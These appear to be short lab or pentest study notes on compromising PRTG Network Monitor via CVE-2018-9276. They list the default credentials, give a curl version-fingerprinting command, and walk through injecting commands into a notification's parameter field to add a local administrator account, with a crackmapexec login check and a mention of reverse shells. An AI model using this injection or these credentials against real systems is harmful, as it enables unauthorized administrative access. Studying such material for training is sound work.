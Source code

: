 default credentials prtgadmin:prtgadmin

PRTG version 17.3.33.2830 -> CVE-2018-9276

version curler: 
```
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```

known vulnerabilities

common port: 8080


## Add new local admin user
go to Setup -> Account Settings -> Notifications -> Add new notification 


1. Give notification name
2. Tick box next to EXECUTE PROGRAM 
3. Program File: select Demo exe notification - outfile.ps1
4. Parameter field: `test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`
	1. this parameter field can be changed to anything like a reverse shell
5. Save
you can try to access the machine now
```shell-session
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 
```

or just search meterpreter -> prtg_authenticated_rce


